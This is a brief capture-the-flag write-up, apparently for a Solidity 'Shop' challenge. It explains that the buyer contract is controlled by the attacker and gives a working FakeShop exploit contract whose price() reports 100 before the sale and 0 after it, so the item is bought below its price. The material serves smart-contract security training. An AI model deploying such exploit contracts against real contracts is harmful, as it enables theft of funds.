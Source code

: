 # Requirements

- Get the item from the shop for less than the price asked

# Attack explanation

We can control the address from which the Buyer instance is created.

What we are going to do is to create our own Buyer contract and implement price following a similar structure but different behaviour. To solve the challenge, we must make the function return a lower price than the shop.

# Attack function

We could solve the challenge by just using the following attack proxy sc:

```
contract FakeShop is Buyer{
    function attack(address vulnerableScAddress) public {
        vulnerableScAddress.call(abi.encodeWithSignature("buy()"));
    }

    function price() external view override returns (uint256) {
        bool isSold = Shop(msg.sender).isSold();
        if(!isSold) {
            return 100;
        }
        return 0;
    }
}
```
